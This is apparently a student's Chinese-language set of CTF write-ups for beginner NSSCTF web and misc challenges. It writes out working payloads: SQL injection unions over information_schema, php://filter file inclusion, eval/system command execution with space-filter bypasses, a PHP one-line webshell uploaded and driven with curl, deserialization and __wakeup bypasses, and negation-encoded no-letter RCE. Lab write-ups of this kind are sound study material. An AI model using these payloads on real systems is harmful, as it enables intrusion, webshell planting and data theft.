

1.[SWPUCTF 2021 新生赛]gift_F12

F12

2.[SWPUCTF 2021 新生赛]jicao

playload:

```
GET: /?json{"x":"wllm"}
POST: id=wllmNB
```

3.[SWPUCTF 2021 新生赛]easy_md5

观察代码，要求使用GET请求获得name，用POST请求获得password，并且要使得输入的name和password的MD5的值也要相同

如果两个字符经MD5加密后的值为 0exxxxx形式，就会被认为是科学计数法，且表示的是0*10的xxxx次方，还是零，都是相等的，所以只要寻找这样的字符就好了

4.[SWPUCTF 2021 新生赛]include

进入环境提示传入一个file，传入/?file=1,显示出源代码，通过阅读源代码


我们可以看到我们可以通过get方法上传file，并且没有检查过滤，并且file还可以传给include_once函数，此函数的作用会包含我们指定的文件，若文件内容是php代码则会执行

php伪协议：php://filter会对数据流进行过滤和处理

我们要查看flag.php中的flag并且不能让php代码执行，所以要将flag.php中的内容base64编码再读,然后将读到的base64编码还原得到flag

playload：

```
/?file=php://filter/read/convert.base64encode/resource=flag.php
```

5:[SWPUCTF 2021 新生赛]easy_sql

学习了一遍数据库的基本操作，由于我的操作系统是arch，所以使用了MariaDB来练习，将MariaDB连接vscode进行练习。

首先F12查看源代码，注释里面表明参数是wllm，先尝试一下 `/?wllm=1`,显示如下


题目说是sql注入，尝试一下 `/?wllm=1'`,显示报错可以尝试注入

首先判断有多少列

```
/?wllm=1' order by 1 --+
/?wllm=1' order by 2 --+
/?wllm=1' order by 3 --+
/?wllm=1' order by 4 --+
```

当尝试到4时会出现报错，所以得出只有3列


然后进行查询每行分别是什么

```
/?wllm=-1' union select 1,2,3 --+
```

得到

Your Login name:2
Your Password:3

所以第二列是name，第三列是password

尝试查询所在的数据库名称,database()会返回默认的数据库，然后通过union select 回显出来

```
/?wllm=-1' union select 1, 2, database() --+
```

得到数据库名称test_db

然后查询此数据库中有哪些表

使用group_concat(table_name),是一个聚合函数可以将多行中的table_name列的值连接成为一个字符串以逗号分隔

FROM information_schema.tables

information_schema.tables是 MySQL 的一个系统表，存储了数据库中所有表的元数据信息，包括表名、表类型、创建时间等

WHERE table_schema='test_db'

table_schema这是 `information_schema.tables` 表中的一个列，表示表所属的数据库名称

**`'test_db'`** ：这是你想要查询的数据库名称。这里过滤出属于 `test_db` 数据库的所有表。

```
?wllm=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='test_db'--+
```


得到两个表test_tb,users

用类似的方法查询两个表中的字段

```
?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='test_db'--+
?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='users'--+
```

在test_tb找到flag


查询test_tb中的flag

```
/?wllm=-1' union select 1, 2, flag from test_tb --+
```


补充：

6.[SWPUCTF 2021 新生赛]easyrce

题目介绍是rce漏洞，rce为远程代码执行漏洞，观察代码可以得到


是eval函数导致的，eval函数会直接运行代码，所以我们尝试通过输入url参数产看根目录下有什么

```
/?url=system("ls /");
```

通过ls命令我们得到了


然后通过cat命令查看了flllllaaaaaaggggggg文件，得到flag

```
/?url=system("cat /flllllaaaaaaggggggg");
```

system()
system() 是 PHP 中⽤于执⾏外部程序并显⽰输出的⼀个函数。这个函数接受⼀个字符串
参数，该参数是要执⾏的命令，然后在 Web 服务器上执⾏这个命令。
基本语法：

```
system(string command, int &command, int &return_var);
```

$command : 要执⾏的命令。
&$return_var （可选）：此变量将填充执⾏命令后的返回状态。

需要注意的是，使⽤ system() 或其他⽤于执⾏外部命令的函数时必须⾮常⼩⼼，特别是
当命令中包含⽤户提供的数据时。否则，你的应⽤程序将容易受到命令注⼊攻击。

7.[SWPUCTF 2021 新生赛]caidao

观察代码是一个用利用post请求的rce漏洞，eval函数导致的


所以用post传参得到flag，在hackbar中利用post传参利用rce漏洞

```
wllm=system("ls /");
wllm=system("cat /flag");
```

8.[SWPUCTF 2021 新生赛]Do_you_know_http

关于http协议的题

进入环境，需要我们使用WLLM浏览器访问。


所以使用burp suite抓包，从proxy模块发送到，repeater模块，将User-Agent后内容改为WLLM

```
User-Agent：WLLM
```

然后出现的结果要我们访问a.php


访问后要求在本地访问这个页面

所以使用相同的方法抓包，修改客户端原始ip地址为127.0.0.1（本地)

```
X-Forwarded-For:127.0.0.1    （这个语句放在第三行左右，放在最后的话好像不起作用）
```

然后出现结果


访问./secretttt.php得到flag

9.[SWPUCTF 2021 新生赛]babyrce

观察代码，可以得到，我们要首先把cookie中admin的值设为1


使用hackbar或者bp抓包修改

```
Cookie:admin=1
```


然后访问rasalghul.php


根据访问后的页面，我们可以使用get请求来修改url的值，但是代码中使用 `preg_match`函数检查 `$ip`中是否包含空格。如果检测到空格，脚本将终止执行并输出 `nonono`

然后$ip中的代码将被shell_exec执行，最后由echo函数打印出来

先看一下有什么东西

```
${IFS}
$IFS$9
可以用来在linux shell中代替空格（后面那个好像$加任何数字都可以）

<
<>
%20
%09
URL编码

cat,flag.php(用逗号当作空格)
```

```
/?url=ls	   （查看当前目录下有什么）
/?url=ls${IFS}/    (查看根目录下有什么)
```


在根目录下看到了flag，直接拿

```
/?url=cat${IFS}/flllllaaaaaaggggggg
```

得到flag

10.[SWPUCTF 2021 新生赛]ez_unserialize


先查看源代码，看到代码最后面的注释，发现是robots.txt的内容，查看robots.txt

```
/robots.txt
```


查看/cl45s.php


终于找到了题目的源代码！（反序列化的题目)

阅读源代码，看到原码中将admin初始化为user，passwd初始化为123456

但是__destruct()函数中需要使得admin=admin,passwd=ctf才能得到flag

看到代码后面可以用get方法输入p，并且传入unserialize()函数

经查询unserialize（)函数是用来进行反序列化的

**序列化（Serialization）** 是将对象转换为字符串的过程，方便存储或传输；**反序列化（Unserialization）** 是将字符串还原为对象。

然后我们尝试构造一个序列化的语句然后传入unserialize（)函数执行

```
/*
$xx = new wllm()
$xx -> admin = "admin"
$xx -> passwd = "ctf"
*/这短代码用在原文

非原文
class wllm()
{
	public $admin = "admin";
	public $passwd = "ctf";
}
$xx = new wllm();
$gw = serialize($xx);
echo $gw;

```

非原文构造


原代码只需要重新创建一个wllm类然后赋值，进行序列话输出


ok，现在我们得到了一个序列化后的代码，用get方法传入

```
?p=O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";} 
```

 反序列化后对象满足 `__destruct()` 条件，输出flag。

补充！

 `__construct()`是原程序的默认赋值操作，但是反序列化生成的对象的属性值直接覆盖了类定义中的默认值（如果有），但实际是**绕过**了构造函数中的赋值逻辑，原程序的赋值操作被跳过了，反序列话优先级高

**__destruct() 的核心特性**

**触发时机**

当对象的生命周期结束时（例如脚本执行完毕）。

当对象被显式销毁（如调用 `unset($obj)`）。

**反序列化场景** ：反序列化生成的临时对象会在脚本结束时触发 `__destruct()`。

**常见用途**

清理资源（如关闭数据库连接、释放文件句柄）。

在反序列化漏洞中，它是触发恶意代码的关键入口。

**与构造函数的对比**

`__construct()`：对象**创建时**调用（反序列化时不会触发）。

`__destruct()`：对象**销毁时**调用（反序列化时会触发）。

11.[SWPUCTF 2021 新生赛]easyupload2.0

进入一看这是一个文件上传的题目


尝试一句话木马(one.php)

```
<?php
@eval($_POST['cmd']);
?>
```

上传失败，提示php是不行的

修改后缀one.phtml                (php3，php5，pht，phtml，phps都是php可运行的文件扩展名)

修改后上传成功

然后想办法getshell

可以使用linux的bash命令行

```

curl -X POST -d "cmd=system("ls");"http://node4.anna.nssctf.cn:28791/upload/one.phtml
发现可以使用木马
curl -X POST -d "cmd=system("pwd")"http://node4.anna.nssctf.cn:28791/upload/one.phtml"
curl -X POST -d "cmd=system("ls /")"http://node4.anna.nssctf.cn:28791/upload/one.phtml"
curl -X POST -d "cmd=system("pwd")"http://node4.anna.nssctf.cn:28791/upload/one.phtml"
curl -X POST -d "cmd=system("ls /app")"http://node4.anna.nssctf.cn:28791/upload/one.phtml"
curl -X POST -d "cmd=system("cat /app/flag.php")"http://node4.anna.nssctf.cn:28791/upload/one.phtml"
得到flag
```

或者可以使用python来构造请求

```
import requests

url = "http://node4.anna.nssctf.cn:28791/upload/one.phtml"
data = {"cmd": "system('cat /app/flag.php"}

response = requests.post(url, data=data)

print(response.text)
```

或者可以使用其他的一些工具，例如蚁剑

12. [SWPUCTF 2021 新生赛]easyupload1.0

进入网站发现是一个文件上传的页面

尝试上传一句话木马（one1.0.php)

```
<?php
@eval($_POST['cmd']);
?>
```

发现上传失败，尝试使用其他php文件的后缀（php3，phtml)，发现都被过滤了尝试将后缀改为.jpg

发现可以上传但是jpg文件没用，所以在bs上对上传操作进行抓包，并将jpg后缀改为php


显示上传成功，需要getshell来寻找flag

通过linux的bash命令行来getshell

```
curl -X POST -d "cmd=system('pwd');"http://node7.anna.nssctf.cn:27834/upload/one1.0.php
curl -X POST -d "cmd=system('ls /app');"http://node7.anna.nssctf.cn:27834/upload/one1.0.php
发现flag.php
curl -X POST -d "cmd=system('cat /app/flag.php');"http://node7.anna.nssctf.cn:27834/upload/one1.0.php
cat到flag，但是发现是一个假的flag
curl -X POST -d "cmd=system('env');"http://node7.anna.nssctf.cn:27834/upload/one1.0.php
查看环境变量寻找线索
```

发现flag就在环境变量中


！注意环境变量中也可以寻找线索

13.[SWPUCTF 2021 新生赛]no_wakeup

产看页面代码发现这是一个反序列化的题目


利用php代码构造出符合要求的代码并输出结果


得到结果


尝试利用get方法提交这个结果

```
/?p=O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
发现不可行，源代码中有__weakup（）函数，尝试绕过这个函数，修改属性数量2-->3使得__weakup()函数跳过
/?p=O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```

！！！注：

1. **`__wakeup` 的触发条件** ：
   PHP 在反序列化对象时，正常情况下会先重建对象属性，然后自动调用 `__wakeup` 方法。但这一过程有一个前提： **序列化字符串中声明的属性数量必须与目标类实际定义的属性数量完全一致** 。
2. **属性数量不一致的影响** ：
   如果序列化字符串中声明的属性数量（例如 `O:6:"HaHaHa":3`）多于目标类实际定义的属性数量（假设类 `HaHaHa` 只有 2 个属性），PHP 会认为数据被篡改或版本不兼容，从而触发以下行为：

* **跳过 `__wakeup`** ：为了防止潜在的不安全操作，PHP 会直接跳过 `__wakeup` 的执行。
* **忽略多余属性** ：多余的属性（如第 3 个属性）在反序列化时会被忽略，但对象仍会被创建。

__weakup（）函数的作用：

`__wakeup()` 是 PHP 中的一个魔术方法（Magic Method），它 **在对象反序列化（`unserialize()`）时自动调用** ，主要用于在反序列化后对对象进行初始化或恢复某些状态。以下是其核心作用和应用场景：

### 1. **核心作用**

* **重建对象状态** ：
  序列化（`serialize()`）仅保存对象的属性数据，但不会保存对象的资源（如数据库连接、文件句柄等）或运行时状态。`__wakeup()` 可以在反序列化后重新初始化这些资源或恢复必要状态。
* **数据修复与验证** ：
  如果对象属性在序列化后发生格式变化（例如版本升级），可以通过 `__wakeup()` 对旧数据进行兼容性修复或校验。
* **安全控制** ：
  开发者可以在 `__wakeup()` 中重置敏感权限或清理不安全数据，防止反序列化攻击。

### 2. **触发时机**

* **调用条件** ：
  `__wakeup()` 仅在以下情况下触发：
* 通过 `unserialize()` 反序列化对象时。
* 序列化字符串中声明的属性数量 **严格等于** 类实际定义的属性数量（否则会被跳过，如你提到的绕过场景）。

14.[SWPUCTF 2021 新生赛]PseudoProtocols

查看这道题目，发现需要考查php伪协议

进入题目发现

hint is hear Can you find out the hint.php?

要让我们查看hint.php,尝试访问发现可以访问成功但是显示的是空白页面，可能是被屏蔽了

url中貌似提醒我们要尝试用php://filter伪协议进行访问

```
/?wllm=php://filter/read/convert.base64-encode/resource=hint.php
```


用base64解码查看，发现是


尝试访问/test2222222222222.php


发现可以使用get方法上传a并使得a严格=i want flag

有两种方法

```
/?a=data://text/plain,I want flag
```

data://text/plain指定MIME类型为纯文本

或者直接利用命令行来访问

```
curl -X POST -d "I want flag" http://node7.anna.nssctf.cn:29262/test2222222222222.php/?a=php://input
```

`php://input`是一个只读流，用于读取原始的请求数据。它通常用于接收POST请求的内容，尤其是在处理非文件上传的POST数据时。

得到flag


15.[NCTF 2018]签到题

bp抓包


添加cookie并修改url得到flag

在url中删除secret.php


16.[SWPUCTF 2021 新生赛]hardrce

题目是一个无字母RCE绕过，前面做过rce漏洞的题目，通过eval函数构造执行就可以了，但是此题目会屏蔽某些特殊符号和大小写字母


不论如何先尝试一下,发现被过滤了

```
/?wllm=system('pwd');
```

可以通过异或，取反来绕过（~可以进行取反，然后通过urlencode函数变成url编码)

```
<?php
$a=urlencode(~'system');
$c=urlencode(~'ls /');
$b=urlencode(~'cat /flllllaaaaaaggggggg');
echo $a;
echo $c;
echo $b;
//echo '(~'.$a.')'.'(~'.$b.')';
?>
```


尝试使用（再次通过~来取反恢复为原来的密码)

```
(~%8F%9C%9E...)(~%9C%9E...)
// 等价于：
('system')('cat /flag');
```

括号在此处有两个关键作用：

1. **包裹函数名** ：`(~%8F%9C%9E...)` 会被优先计算，结果作为函数名。
2. **包裹参数** ：`(~%9C%9E...)` 会被计算为字符串参数。

```
/?wllm=(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);
```

得到，发现了flag


尝试获取flag内容

```
/?wllm=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%93%93%93%93%9E%9E%9E%9E%9E%9E%98%98%98%98%98%98%98)
```

得到flag

17.[第五空间 2021]签到题


直接替换为NSSCTF{}提交就可

18.[陇剑杯 2021]签到

分析附件发现很多http协议报文，还有很多403响应，根据题目要填写NSSCTF{http}

19. [广东强网杯 2021 个人决赛]签到题

下载附件解压后就可以得到flag

20.[陇剑杯 2021]jwt（问1）

下载附件用wireshark打开，分析->追踪流->http


查找/identity，发现cookie，用base64解码知道是jwt认证方式，由三部分组成，用点（.）分隔

（/identity” 通常是一个 HTTP 请求路径，用于与身份（identity）相关的操作）

20.[长城杯 2021 院校组]签到

得到一串十六进制数5a6d78685a3374585a57786a6232316c5833527658324e6f5957356e5932686c626d64695a544639

尝试转换为ASCII码，然后base64解码得到flag


21.[SWPUCTF 2022 新生赛]ez_ez_php

题目的标签中含有php伪协议，文件包含等，进入题目环境，查看代码


substr（）函数要求传入get请求的代码前三位必须是php，所以我们想到利用php伪协议来构造

```
/?file=php://filter/read/convert.base64-encode/resource=flag.php
```



进入发现有base64编码，进行解码后得到


发现flag在flag文件里，不再flag.php

```
/?file=php://filter/read/convert.base64-encode/resource=flag
```

得到flag（base64解码后）


22.[SWPUCTF 2021 新生赛]error

使用sqlmap先做完题（再学习一遍sql查询的命令！！！！！！！！！！)

23.[陇剑杯 2021]webshell（问1）

题目要求用wireshark进行流量分析，然后找到黑客登录用的密码

对流量包看下来，登入系统一般都有一下的特征：
x1.登入成功说明状态码为200
x2.用post方式登入
x3.一般进入的是login页面

用字符串过滤login，发现有这样的流量


进行追踪http流，发现password


进行url解码后得到 `Admin123!@#`

flag为NSSCTF{`Admin123!@#`}

24.[SWPU 2019]神奇的二维码

下载附件，是一个二维码扫描后发现是一个假的flag


然后用binwalk扫描图片，发现还有几个rar压缩包

```
binwalk  '/home/kali/Desktop/MISC-神奇的二维码-BitcoinPay.png'
```


然后将扫描到的文件提取出来

```
binwalk -e '/home/kali/Desktop/MISC-神奇的二维码-BitcoinPay.png'
```


解压压缩包，然后发现有两个压缩包需要密码


密码在flag.doc里面，然后进行连续20次base64解码，得到密码（里面是一个音频）


密码在encode.txt里面，base64解码可得（里面是一个表情包)


播放得到的音频发现是摩斯密码，用Audacity打开mp3音频，得到可视化的


粗的为-

细的为.

手动对照摩斯密码表译码后得到


```
NSSCTF{morseisveryveryeasy}
```

25.
